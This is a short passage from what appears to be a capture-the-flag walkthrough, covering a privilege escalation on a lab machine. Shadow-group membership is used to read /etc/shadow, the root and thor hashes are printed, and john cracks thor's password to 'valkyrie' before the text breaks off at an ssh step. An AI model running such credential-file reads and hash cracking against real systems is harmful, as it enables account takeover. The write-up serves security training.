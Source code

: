 <figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Shadow Group --> Thor Creds

We are part of the `shadow` group, meaning we can read `/etc/shadow`:

{% code overflow="wrap" %}
```
$ cat /etc/shadow
root:$6$XRJJB9j7GYzWvjBy$yZEsOS3cam1DG.eI26bW1TERw5SV7b3RVZQHZB7UFzKNyPR6PPUFfxzclKsiGUT8.WoL7vQ4hhNmekav68kwN1:19150:0:99999:7:::
thor:$6$l2ThCEsvmrzmkKIA$FWtAb1SsYFqAXA96Ze4uGTHtPV9HNi7ShAgoTet1gx.HvkEFePp.Bk/uBeuxpCMz/X3jXWbGavj11po9H/FzP.:19150:0:99999:7:::
```
{% endcode %}

We can try to crack the hashes alone using `john` for these users. The hash for `thor` can be cracked while the one for `root` cannot.&#x20;

```
$ john --show hashes                                     
?:valkyrie

1 password hash cracked, 1 left
```

We can then `ssh` in as `thor`:
